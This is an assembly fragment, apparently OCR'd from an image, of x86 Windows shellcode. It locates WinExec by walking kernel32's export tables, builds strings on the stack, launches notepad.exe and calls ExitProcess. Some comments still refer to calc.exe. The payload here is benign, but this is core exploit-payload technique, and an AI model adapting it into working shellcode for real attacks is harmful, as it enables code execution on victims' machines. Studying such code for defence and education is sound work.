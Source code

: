 ```asm
			cld; clear direction flag - Process strings from left to right
			mov edi, [edi + eax * 4]; EDI = RVA NameString = [&NamePointerTable + (Counter * 4)]
			add edi, [ebp - 0x4]; EDI = &NameString = RVA NameString + &kernel32.dll
			add cx, 0x8; ECX = len("WinExec,0x00") = 8 = 7 char + 1 Null
			repe cmpsb; compare first 8 bytes of[&NameString] to "WinExec,0x00"
			jz found; If string at[&NameString] == "WinExec,0x00", then end loop
			inc eax; else Counter ++
			cmp eax, edx; Does EAX == Number of Functions ?
			jb searchLoop;   If EAX != Number of Functions, then restart the loop

			found :
		; Find the address of WinExec by using the last value of the Counter
			mov ecx, [ebp - 0xC]; ECX = &OrdinalTable
			mov edx, [ebp - 0x10]; EDX = &AddressTable
			mov ax, [ecx + eax * 2];  AX = ordinalNumber = [&OrdinalTable + (Counter * 2)]
			mov eax, [edx + eax * 4]; EAX = RVA WinExec = [&AddressTable + ordinalNumber]
			add eax, [ebp - 0x4]; EAX = &WinExec = RVA WinExec + &kernel32.dll
			ret

			functions :
		; Create string 'WinExec\x00' on the stack and save its address to the stack - frame
			mov edx, 0x63657878; "cexx"
			shr edx, 8; Shifts edx register to the right 8 bits
			push edx; "\x00,cex"
			push 0x456E6957; EniW: 456E6957
			mov[ebp + 0x18], esp; save address of string 'WinExec\x00' to the stack - frame
			call findFunctionAddr; After Return EAX will = &WinExec

			; Call WinExec(CmdLine, ShowState);
		;   CmdLine = "calc.exe"
			;   ShowState = 0x00000001 = SW_SHOWNORMAL - displays a window
			xor ecx, ecx; clear eax register
			;push ecx; string terminator 0x00 for "calc.exe" string
			;push 0x6578652e; exe. : 6578652e
			;push 0x636c6163; clac: 636c6163
			;notepad.exe\x00
			
			push 0x00657865   ; \x00exe : 00657865
			push 0x2e646170	  ; .dap	: 2e646170
			push 0x65746F6E	  ; eton	: 65746F6E
			mov ebx, esp; save pointer to "calc.exe" string in eax
			inc ecx; uCmdShow SW_SHOWNORMAL = 0x00000001
			push ecx; uCmdShow - push 0x1 to stack # 2nd argument
			push ebx; lpcmdLine - push string address stack # 1st argument
			call eax; Call the WinExec Function

			; Create string 'ExitProcess\x00' on the stack and save its address to the stack - frame
			xor ecx, ecx; clear eax register
			mov ecx, 0x73736501; 73736501 = "sse", 0x01 // "ExitProcess",0x0000 string
			shr ecx, 8; ecx = "ess", 0x00 // shr shifts the register right 8 bits
			push ecx;  sse: 00737365
			push 0x636F7250; corP: 636F7250
			push 0x74697845; tixE: 74697845
			mov[ebp + 0x18], esp; save address of string 'ExitProcess\x00' to stack - frame
			call findFunctionAddr; After Return EAX will = &ExitProcess

			; Call ExitProcess(ExitCode)
			xor edx, edx
			push edx; ExitCode = 0
			call eax; ExitProcess(ExitCode)
```
